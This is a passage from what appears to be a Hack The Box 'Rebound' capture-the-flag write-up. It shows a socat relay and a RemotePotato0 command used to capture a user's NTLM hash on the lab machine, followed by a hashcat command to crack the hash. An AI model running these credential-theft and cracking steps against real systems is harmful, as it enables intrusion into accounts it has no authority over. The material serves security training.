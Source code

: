 
![](/assets/posts/2023-12-31-htb-rebound/rebound_windows_os.bmp)


The GitHub repository mentions that Microsoft has recently patched the vulnerability associated with RemotePotato. However, considering our machine's older operating system, there's a likelihood that the server remains vulnerable. To confirm this, we'll conduct tests to ascertain the presence of the vulnerability and determine our path forward.

```bash
# On attacker machine 
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.231:9999

# On victim machine
.\RemotePotato0.exe -m 2 -x 10.10.14.47 -p 9999 -s 1 
```


![](/assets/posts/2023-12-31-htb-rebound/rebound_potato.bmp)


 The machine proved vulnerable to RemotePotato, and now we have Tbrady's NTLM hash in our possession. Our next move is to attempt to crack the hash using the following command below.

```bash
hashcat -m 5600 -a 0 -O -w 4 hash rockyou.txt
```

